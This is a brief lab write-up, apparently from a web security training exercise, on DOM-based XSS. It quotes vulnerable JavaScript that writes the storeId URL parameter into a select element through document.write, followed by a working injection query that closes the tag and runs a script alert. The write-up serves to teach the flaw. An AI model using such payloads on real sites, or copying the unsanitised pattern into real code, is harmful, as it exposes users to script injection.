 # Lab 3: DOM XSS inside select element Sink

## Analysis
The product page shows that the script gets a value called `storeId` from the `location.search` and then uses it uses it in `document.write` to show the stock. 

Adding a `storeId` with a random string to the URL query will show the string in the dropdown menu. 

Javascript:
```
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
```

XSS Query:
```
product?productId=2&storeId="><script>alert(0)</script>
```